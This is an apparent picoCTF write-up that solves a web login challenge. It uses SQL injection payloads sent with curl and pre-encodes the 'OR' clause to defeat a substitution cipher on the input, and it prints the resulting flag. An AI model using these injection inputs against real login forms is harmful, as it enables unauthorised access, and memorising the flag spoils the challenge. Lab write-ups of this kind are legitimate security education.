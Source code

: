 Doing 

```
curl https://jupiter.challenges.picoctf.org/problem/54253/login.php --data "password=teste&debug=1"
```


we can see the password is being encrypted and seems like is someking of substituition cypher

trying a simple sql injection:

```
curl https://jupiter.challenges.picoctf.org/problem/54253/login.php --data "password=' OR 'A'=='A'--&debug=1
```

gives

```
<pre>password: ' OR 'A'=='A'
SQL query: SELECT * FROM admin where password = '' BE 'N'=='N''
```

which means that now we just need to change the OR in our sql for be like:

```
curl https://jupiter.challenges.picoctf.org/problem/54253/login.php --data "password=' be 'A'='A'--&debug=1"
```
and we get

```<pre>password: ' be 'A'='A'--
SQL query: SELECT * FROM admin where password = '' or 'N'='N'--'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{3v3n_m0r3_SQL_7f5767f6}</p>
```